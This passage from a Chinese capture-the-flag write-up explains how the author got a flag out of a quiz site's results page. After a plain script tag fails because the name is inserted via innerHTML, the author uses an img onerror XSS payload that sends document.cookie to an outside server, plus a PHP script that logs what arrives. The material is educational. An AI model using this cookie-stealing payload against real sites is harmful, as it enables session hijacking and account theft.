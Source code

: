 也就是说，提交结果的命令行程序在访问结果页面前的“Putting secret flag”步骤中，将 flag 存储到了 Cookie 里。一旦看出这一点，目标就很明确了——通过注入攻击在结果页面上放置一些代码，获取命令行程序在无界面浏览器环境中设置的 Cookie。

不妨先试试最粗劣的注入攻击手段。

![](./IntegralQuiz/worst-xss.png)

提交后，结果页面并没有弹出显示 `1` 的弹窗，但是也没有将 `<script>alert(1)</script>` 这个姓名显示出来。这说明页面对注入攻击的防范是有问题的，只是这次没有成功触发。

![](./IntegralQuiz/worst-xss-result.png)

F12 一下看看到底出了什么问题。这里，`<script>` 标签确实成功地插入到了网页中，但没有执行，并且找不出有什么标签阻止了脚本在这里执行。再看看网页其他部分，我发现了问题——内容是通过脚本以 innerHTML 方式插入的。

```javascript
document.querySelector("#greeting").innerHTML = "您好，" + username + "！";
document.querySelector("#score").innerHTML = "您在练习中获得的分数为 <b>" + score + "</b>/100。";
```

尽管如此，还是有别的方法可以注入脚本。例如，通过图片的 `onerror` 事件。

```html
<img src="." onerror="alert(1)" />
```

这样页面就会像预期的一样显示弹窗 `1`。

在注入的脚本中使用 `document.cookie` 就可以毫无困难地获取 Cookie。下一个问题是如何将这个 Cookie 显示出来。在网络攻击实践中，一般会让浏览器将其发给攻击者的服务器，然后由攻击者的服务器收集信息。

注入内容：

```html
<img
    src="."
    onerror="this.src='https://example.com/public/logdata/?info='+document.cookie">
```

服务器上的 `$public_html/public/logdata/index.php`：

```php
<?php
$info = $_REQUEST['info'] ?? '';
file_put_contents('info.txt', $info);
$img = imageCreateTrueColor(16, 16);
header('content-type: image/png');
imagePNG($img);
```
